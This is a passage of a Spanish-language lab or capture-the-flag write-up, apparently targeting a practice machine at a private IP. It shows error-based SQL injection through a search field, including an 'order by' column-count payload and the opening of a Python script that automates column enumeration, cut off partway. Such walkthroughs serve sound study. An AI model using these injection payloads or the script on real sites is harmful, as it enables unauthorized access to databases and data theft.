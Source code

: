 Al entrar en esta web, ya tenemos una barra de busqueda y estas barras estan ligadas a un *Like*. La consulta podria ser algo asi. 

```sql
SELECT * FROM productos WHERE nombre LIKE '%manzana%';
```


Si buscamos  por hitman para ver que nos arroja, podemos ver lo siguiente:

![Pasted-image-20240720164741.png](./assets/Pasted-image-20240720164741.png)


Podemos ver que hace una peticion post con un campo que se llama searchitem y ahi le pasa el parametro que buscamos.

Ademas, vemos que la consulta nos devuelve 2 campos. Un campo con el titulo del juego y otro con la descripcion. Campos que son de texto por ende, podriamos probar hacer una inyeccion con solo dos campos para ver si nos entrega la version de la base de datos y el nombre. Saber esto es clave para seguir con nuestro ataque aunque tambien es clave saber cuantas columnas exactamente tiene la tabla.

si utilizo:

```sql
'order by 10 -- -
```

la respuesta que obtengo es: 
![Pasted image 20240720165547.png](./assets/Pasted image 20240720165547.png)
Dice que no conoce la columna y esto significa que la tabla no tiene 10 columnas. Otra cosa importante que estamos pasando por alto, es el tipo de vulnerabilidad que estamos explotando y es una inyeccion SQL basada en error. Saber esto es clave para posteriores payloads de **payloadallthethings** o para realizar busquedas por los errores que tengamos para conocer mas de la base de datos que estamos atacando.

Este script nos ayuda a saber la cantidad de columnas que tenemos en la tabla de manera automatizada. 

```python 
from pwn import *
import requests, signal, sys

def def_handler(sig,frame ):
	print("\n\n[*] Saliendo!")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def busqueda_columnas():
	url = "http://10.10.190.112/portal.php"
	
	headers = {
	"Host": "10.10.190.112",
	"Cache-Control": "max-age=0",
```